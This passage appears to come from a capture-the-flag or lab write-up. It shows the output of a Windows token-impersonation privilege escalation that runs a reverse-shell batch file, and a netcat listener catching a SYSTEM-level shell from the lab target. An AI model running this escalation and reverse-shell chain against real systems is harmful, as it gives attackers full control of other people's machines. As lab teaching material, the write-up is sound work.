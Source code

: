     RPC -> bytes Sent: 42
    RPC -> bytes received: 56
    COM -> bytes sent: 56
    CoGet: -2147022986 0
    [+] authresult != -1
    [+] Elevated Token tye:2
    [+] DuplicateTokenEx :1  0
    [+] Duped Token type:1
    [+] Running \temp\rev.bat sessionId 1
    [+] CreateProcessWithTokenW OK
    Auth result: 0
    Return code: 0
    Last error: 0



And we catch a callback for a SYSTEM shell:



    root@kali# nc -lnvp 8085
    listening on [any] 8085 ...
    connect to [10.10.14.14] from (UNKNOWN) [10.10.10.82] 49181

    PS C:\Windows\system32> whoami
    nt authority\system








